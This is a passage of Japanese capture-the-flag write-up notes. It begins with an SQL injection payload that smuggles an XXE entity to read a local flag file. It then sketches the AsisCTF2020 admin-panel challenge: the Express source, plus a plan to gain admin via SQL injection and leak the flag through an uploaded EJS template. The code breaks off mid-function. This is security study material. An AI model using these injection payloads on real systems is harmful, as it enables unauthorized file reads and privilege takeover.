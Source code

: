 ```txt
4' union select '<!DOCTYPE excerpt [<!ENTITY test SYSTEM "file:///flag">]><root><id>4</id><excerpt>&test;</excerpt></root>
```
## Prototype pollution / Quine SQL Injection / Template Injection (AsisCTF2020 admin-panel)
https://vuln.live/blog/10  
https://github.com/TeamGreyFang/CTF-Writeups/tree/master/AsisCTF2020/admin-panel  
- **entrypoint**  
app.js, router/main.js, package.jsonが配布されているらしい。  
flagは`app.locals.flag`にありそう。  
```js
// app.js
const express = require('express');
const app = express();
const session = require('express-session');
const db = require('better-sqlite3')('./db.db', {readonly: true});
const cookieParser = require("cookie-parser");
const FileStore = require('session-file-store')(session);
const fs = require('fs');

app.locals.flag = "REDACTED"
app.use(express.static('static'));
app.use(cookieParser());
app.use(express.urlencoded({extended: false}));
app.use(express.json());
app.set('views', __dirname + '/views');
app.set('view engine', 'ejs');
app.engine('html', require('ejs').renderFile);

const server = app.listen(3000, function(){
    console.log("Server started on port 3000")
});

app.use(session({
    secret: 'REDACTED',
    resave: false,
    saveUninitialized: true,
    store: new FileStore({path: __dirname+'/sessions/'})
}));

const router = require('./router/main')(app, db, fs);
```
SQLInjectionでadminになった後に、File uploadで`test.ejs`とかで中に`<%=flag%>`というテンプレートを作成すれば変数の中身を表示できる。  
```js
// router/main.js
module.exports = function(app, db, fs){
    app.get('/', function(req, res){
        res.render('index.html')
    });

    app.post('/login', function(req, res){
        var user = {};
        var tmp = req.body;
        var row;

        if(typeof tmp.pw !== "undefined"){
            tmp.pw = tmp.pw.replace(/\\/gi,'').replace(/\'/gi,'').replace(/-/gi,'').replace(/#/gi,'');
        }

        for(var key in tmp){
            user[key] = tmp[key];
```
